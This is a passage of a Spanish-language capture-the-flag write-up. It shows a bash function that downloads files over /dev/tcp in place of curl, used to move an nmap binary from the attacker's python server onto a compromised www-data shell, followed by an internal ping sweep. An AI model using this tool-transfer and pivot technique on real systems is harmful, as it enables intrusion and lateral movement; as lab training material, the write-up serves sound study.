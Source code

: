Para descarganos el binario de nmap a la maquina victima de nuestra maquina atacante podemos hacer uso de una función que es una alternativa a curl

```php
set -ex

function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}

__curl http://www.google.com/favicon.ico > mine.ico
md5sum mine.ico
```

Haciendo uso de del anterior podemos descargarnos, antes claro iniciando un servidor en nuestra maquina atacante con el que deseamos, yo en particular lo hice con python

#### Enumeración de host

Una vez descargado el binario de nmap, realizaremos la enumeracio de host los cuales estan conectados a las interfaces.

![20240207190113.png](20240207190113.png)

Encontramos una que es la `172.16.1.128` del cual tendremos que enumerar cada uno de los puertos abiertos que tenga.

```php
www-data@app:/tmp$ ./nmap -sn 172.16.1.0/24

Nmap scan report for app.ctx.ctf (172.16.1.10)

Nmap scan report for hackback_router1_1.hackback_r_1_ext (172.16.1.128)
```
